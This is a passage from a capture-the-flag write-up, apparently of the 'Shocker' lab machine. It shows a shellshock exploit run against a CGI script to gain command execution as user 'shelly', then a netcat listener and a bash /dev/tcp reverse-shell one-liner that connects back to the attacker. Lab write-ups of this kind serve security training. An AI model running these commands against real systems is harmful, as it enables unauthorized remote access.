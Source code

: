 > On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 09:45:45 up  1:33,  0 users,  load average: 0.80, 0.59, 0.49
{% endraw %}
{% endhighlight %}

Let's find a `shellshock` exploit. I asked the internet and it returned [this](https://github.com/pwnGuy/shellshock-shell/) particular page.

So I downloaded it and ran:
> On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# ./shellshock.py -u http://10.10.10.56/cgi-bin/user.sh
> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
> pwd
/usr/lib/cgi-bin
> 
{% endraw %}
{% endhighlight %}

Finally! 

## Getting a decent shell
Before going for the flags, I wanted a better shell. And so I got one.

> On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1234
listening on [any] 1234 ...
{% endraw %}
{% endhighlight %}

> On the server
{:.filename}
{% highlight text %}
{% raw %}
> bash -i >& /dev/tcp/10.10.15.101/1234 0>&1
{% endraw %}
{% endhighlight %}

Then I got a shell!
